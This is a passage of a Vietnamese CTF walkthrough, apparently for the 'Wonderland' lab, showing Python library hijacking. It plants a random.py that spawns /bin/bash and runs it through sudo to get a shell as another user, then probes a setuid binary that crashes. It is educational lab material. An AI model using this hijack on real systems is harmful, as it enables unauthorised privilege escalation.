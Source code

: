 ## Privilege escalation

Thực sự là tôi đã mất cả 1 buổi sáng để tìm cách khai thác file py này nhưng đều không có tác dụng. Và trong khi lần mò 1 cách vô vọng trên google về các lỗ hổng với file python, tôi tìm thấy [cách leo thang đặc quyền bằng thư viện python](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/). 

Khi chạy file, python sẽ tìm đến thư mục chứa các gói được import theo thứ tự ưu tiên. Ở đây, trong thư viện của python 3.6 có file random.py nên thay vì để tập lệnh gọi file này, tôi sẽ tạo 1 file random.py chứa payload ở ngay trong thư mục *alice*.

Tạo file random.py:

```python
import os
os.system("/bin/bash")
```

Chạy lại file python với user *rabbit* xem có gì xảy ra không

```python
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ pwd
/home/alice
```

Vào thư mục của user *rabbit*

```python
rabbit@wonderland:/home/rabbit$ ll
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 ./
drwxr-xr-x 6 root   root    4096 May 25  2020 ../
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty*
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

Thử chạy file binary này

```python
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 11 Aug 2022 10:10:09 +0000
Ask very nicely, and I will give you some tea while you wait for him
kk
Segmentation fault (core dumped)
```
